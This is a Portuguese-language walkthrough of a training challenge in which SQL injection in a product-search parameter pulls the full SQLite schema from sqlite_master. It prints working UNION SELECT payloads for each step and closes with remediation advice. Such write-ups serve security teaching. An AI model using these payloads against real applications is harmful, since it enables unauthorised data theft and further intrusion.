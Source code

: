 Esse desafio mostra um **ataque de SQL Injection (SQLi)** voltado para **exfiltrar o esquema completo do banco de dados (DB Schema)**, explorando a tabela especial **`sqlite_master`** do SQLite.

---

### 🔍 **Como funciona o ataque?**

1. A aplicação usa **SQLite** e tem uma vulnerabilidade de SQL Injection no parâmetro **`q`** da rota `/rest/products/search`.

2. O atacante envia **payloads SQL** até encontrar uma forma de unir (`UNION SELECT`) os resultados da tabela normal de produtos com os dados de **`sqlite_master`**, que contém o **DDL (CREATE TABLE / CREATE INDEX)** de todas as tabelas.

3. A tabela **`sqlite_master`** tem uma coluna chamada **`sql`**, que guarda o comando SQL usado para criar cada tabela/índice.

---

### 🔑 **Etapas do ataque explicado**

#### ✅ **1) Confirmar a injeção**

O atacante envia:

```
'))--
```

➡️ Isso fecha a query e comenta o restante, confirmando que há **SQL Injection**.

---

#### ✅ **2) Testar UNION SELECT**

Envia:

```
')) UNION SELECT * FROM sqlite_master--
```

➡️ O erro **"no such table: x"** confirma que `sqlite_master` existe.

---

#### ✅ **3) Descobrir o número de colunas da query original**

Ele tenta várias combinações:

```
')) UNION SELECT '1' FROM sqlite_master--   ❌ Erro: poucas colunas
')) UNION SELECT '1','2' FROM sqlite_master-- ❌ Erro
')) UNION SELECT '1','2','3',...,'9' FROM sqlite_master-- ✅ Finalmente funciona
```

Ou seja, a query original retorna **9 colunas**, então o UNION precisa ter **9 valores**.

---

#### ✅ **4) Extrair o schema**

Agora, troca o **primeiro valor** pelo campo **`sql`** (que contém o CREATE TABLE):

```
')) UNION SELECT sql,'2','3','4','5','6','7','8','9' FROM sqlite_master--
```

A resposta JSON retorna objetos como:

```json
{
  "id": "CREATE TABLE Users(id INTEGER PRIMARY KEY, ... )",
  "name": "2",
  "description": "3",
  ...
}
```

Ou seja, o atacante consegue **baixar a definição de todas as tabelas**.

---

### 🔥 **Por que isso é perigoso?**

* Com o **schema completo**, o invasor descobre **nomes de tabelas, colunas, tipos de dados e relacionamentos**.
* Isso facilita ataques futuros como:
  ✅ Roubo de dados com SELECTs específicos
  ✅ Escalada para **SQLi avançado** (INSERT/UPDATE/DELETE)
  ✅ Quebra de autenticação (sabendo onde ficam senhas e tokens)

---

### 📌 **Qual é a vulnerabilidade?**

✅ **SQL Injection (SQLi)** → A aplicação **não faz validação/escape do parâmetro `q`**, permitindo injetar comandos SQL arbitrários.

---

### 🔐 **Como corrigir?**

1. Usar **queries parametrizadas (prepared statements)** em vez de concatenar strings SQL.
2. Validar a entrada do usuário (whitelist, filtros).
3. Nunca exibir mensagens de erro detalhadas do banco para o usuário.
